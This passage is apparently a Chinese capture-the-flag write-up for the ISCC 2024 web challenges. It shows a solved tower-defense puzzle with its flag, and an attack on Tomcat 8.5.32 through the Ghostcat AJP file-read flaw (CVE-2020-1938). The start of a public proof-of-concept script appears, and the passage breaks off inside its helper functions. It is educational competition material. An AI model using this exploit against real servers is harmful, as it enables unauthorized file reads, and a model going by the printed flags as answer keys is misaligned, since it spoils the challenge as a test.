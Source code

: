 ```yaml
---
title: ISCC-2024
tags:
  - 比赛
  - ISCC
  - Writeup
  - wp
permalink: /archives/35796/
createTime: 2024-06-01 21:59:42
---
```


# web

## 还没想好名字的塔防游戏

![标题: fig:](https://img.crzliang.cn/img/202406012237580.png)

打到第三波有弹窗

![标题: fig:](https://img.crzliang.cn/img/202406012237581.png)

全局搜索这个提示恭喜，您已消灭第3波怪物，这是第一条提示：Bears Brew Storms
 找到剩下的所有提示

![标题: fig:](https://img.crzliang.cn/img/202406012237583.png)

根据题目说的xxx共有18位
把Mystic Defense War: The Secret of Guardian Towers and Magical Monsters的首大写字母和三个提示恭喜，您已消灭第3波怪物，这是第一条提示：Bears Brew Storms、恭喜，您已消灭第10波怪物，这是第二条提示：Opal Oceans Glow和恭喜，您已消灭第100000波怪物，这是第三条提示：Elves Whisper Wonders的首大写字母拼接起来就得flag
 ISCC{MDWTSGTMMBBSOOGEWW}

## 原神启动

根据报错信息，得知是一个8.5.32的tomcat，这个版本存在一个CVE-2020-1938

![image-20240601221053080](https://img.crzliang.cn/img/202406012210607.png)

网上有脚本，可以直接梭哈，读flag

![image-20240601221112580](https://img.crzliang.cn/img/202406012211991.png)

**POC**

```python
#!/usr/bin/env python
#CNVD-2020-10487  Tomcat-Ajp lfi
#by ydhcui
import struct

# Some references:
# https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
def pack_string(s):
    if s is None:
        return struct.pack(">h", -1)
    l = len(s)
    return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)
def unpack(stream, fmt):
    size = struct.calcsize(fmt)
    buf = stream.read(size)
    return struct.unpack(fmt, buf)
def unpack_string(stream):
```